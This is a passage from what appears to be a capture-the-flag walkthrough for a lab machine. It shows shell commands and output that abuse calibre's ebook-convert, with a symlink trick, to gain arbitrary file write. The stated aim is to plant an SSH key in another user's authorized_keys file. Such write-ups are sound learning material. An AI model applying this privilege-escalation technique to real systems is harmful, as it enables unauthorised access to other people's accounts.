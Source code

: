 ![](/img/image-20240117105741443.png)

It shows success, and the file exists:



    frank@bookworm:/home/neil/converter/calibre$ cat /tmp/web.txt 
    test data!






#### Symlinks for Arbitrary Write

If I can get write as `neil`, I would want to write an SSH key into
their `authorized_keys` file. But that has no extension, which by
default means that `ebook-convert` would create the directory, which is
not useful.

If I want to write a text file but without a `.txt`, I'll try a symlink:



    frank@bookworm:/home/neil/converter/calibre$ ln -s /tmp/output /tmp/output.txt
    frank@bookworm:/home/neil/converter/calibre$ ./ebook-convert /tmp/test.txt /tmp/output.txt 
    1% Converting input to HTML...
    InputFormatPlugin: TXT Input running
    on /tmp/test.txt
    Language not specified
    Creator not specified
    Building file list...
    Normalizing filename cases
    Rewriting HTML links
    flow is too short, not running heuristics
    Forcing index.md into XHTML namespace
    34% Running transforms on e-book...
    Merging user specified metadata...
    Detecting structure...
    Auto generated TOC with 0 entries.
    Flattening CSS and remapping font sizes...
    Source base font size is 12.00000pt
    Removing fake margins...
    Cleaning up manifest...